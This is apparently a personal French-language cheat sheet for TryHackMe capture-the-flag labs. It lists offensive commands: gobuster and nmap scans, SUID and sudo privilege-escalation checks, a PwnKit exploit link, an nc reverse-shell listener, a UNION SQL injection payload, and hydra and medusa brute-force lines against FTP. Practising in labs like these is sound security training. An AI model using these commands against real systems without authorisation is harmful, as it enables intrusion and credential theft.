 # TryHackMe



https://github.com/veikoon/pentest/blob/master/commandes.md

Utilitaire :

​	wordlists: ls /usr/share/wordlists/dirb/
​	tmux : <ctrl+a> </> <*>  créer des nouvelles fenêtres

## Premier etape

**Endpoint : ** 

​					gobuster dir -k -x txt,json,php,html -u http://$IP -w /opt/wordlists/common.txt
​					gobuster fuzz --exclude-length XXXX -b 404 -k -u http://$IP/fuzz -w /opt/wordlist/common.txt

**Port : **nmap -sC -sV -A -oN nmap.log $IP

## Reverse Shell

[Github des différentes reverse Shell command](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#tools)]

[Liste des exploit avec permission](https://gtfobins.github.io/)

```bash
Find all SUID files: "fichier executable avec une autre perm que ton user"
find / -perm -4000 -print 2>>/dev/null
Find all SGID files:
find / -perm -2000 -print 2>>/dev/null
```



```
all sudo avaible
sudo -l
```



Heberger un serveur pour passer des fichier

```
python2 -m SimpleHTTPServer
```



**PWnk!it    Exploit CVE-2021-4034**  [Github  source](https://github.com/ly4k/PwnKit)
**LinPeass analyse des faille dun système** [Github Source](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)



Stabiliser bash :

```
python -c 'import pty; pty.spawn("/bin/bash")'

ctr+z

stty raw -echo; fg
```



*Si accés a l'uppload de fichier penssé a upload un fichier reverse php ?*

**Ne pas oublier d'écouter le porthttps://tryhackme.com/room/metasploitintro**

```
nc -lvp 4242
```



## Hash

haiti -e 42f749ade7f9e195bf475f37a44cafcb
https://crackstation.net/

JohnTheReapper

## Reverse Engenering

gdv ./Programme
disas main
break point
`i r` (info registry)
x/s $XXXX



gdb
jump j *@ (modifié)
breakpoint b *@

## Sql injection

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

```sql
group_concat()
```

get the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas. (modifié)

```sql
information_schema
```

contains information about all the databases and tables the user has access to


## osint 

```bash
exiftool WindowsXP.jpg  
```

## Steganographie

```
mogrify -format jpg important.png

steghide extract –sf image.jpeg
stegseek hellp.jpg /opt/wordlist/common.tx
```



## Windows SMB

https://tryhackme.com/room/metasploitintro

smbclient -L $IP 
nmblookup -A $IP 



msfconsole
Search   *smb/netbios*
use *auxiliary/scanner/netbios/nbname*

## FTP

medusa -h $IP -U user.txt -P ./password.txt  -M ftp
**hydra -L username.txt -P password.txt ftp://$IP**

